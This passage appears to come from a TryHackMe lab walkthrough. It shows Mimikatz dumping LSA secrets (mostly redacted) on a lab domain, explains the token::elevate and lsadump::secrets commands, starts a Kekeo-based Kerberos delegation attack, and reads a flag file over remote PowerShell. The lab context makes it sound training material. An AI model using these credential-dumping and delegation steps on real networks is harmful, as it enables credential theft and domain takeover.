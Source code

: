 ```shell-session
SysKey : redacted

Local name : THMWRK1 ( S-1-5-21-3226461851-763325627-4205969673 )
Domain name : ZA ( S-1-5-21-3885271727-2693558621-2658995185 )
Domain FQDN : za.tryhackme.loc

Policy subsystem is : 1.18
LSA Key(s) : 1, default {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27}
  [00] {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27} 929bd1cdc726d31f5eea6fa5266a09521afd0be6309a08fd604c9a95c2af4463

Secret  : $MACHINE.ACC
cur/text: redacted
    NTLM:redacted
    SHA1:redacted
old/text: redacted
    NTLM:redacted
    SHA1:redacted

Secret  : DefaultPassword
cur/text: redacted
old/text: redacted

Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: redacted

mimikatz #
```

Let's run through the two commands:

* token::elevate - To dump the secrets from the registry hive, we need to impersonate the SYSTEM user.
* lsadump::secrets - Mimikatz interacts with the registry hive to pull the clear text credentials.

Now that we have access to the password associated with the svcIIS account, we can perform a Kerberos delegation attack. We will use a combination of [Kekeo](https://github.com/gentilkiwi/kekeo) and [Mimikatz](https://github.com/gentilkiwi/mimikatz/security). You can use another window for Mimikatz, but make sure to exit out of Mimikatz after the `token::elevate` command, otherwise the tickets will be loaded in the wrong context later on. We will use Kekeo to generate our tickets and then use Mimikatz to load those tickets into memory. Let's start by generating the tickets:

```shell-session
PS C:\> C:\Tools\kekeo\x64\kekeo.exe

  ___ _    kekeo 2.1 (x64) built on Dec 14 2021 11:51:55
 /   ('>-  "A La Vie, A L'Amour"
 | K  |    /* * *
 \____/     Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
  L\_       https://blog.gentilkiwi.com/kekeo                (oe.eo)
                                             with 10 modules * * */

kekeo #
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt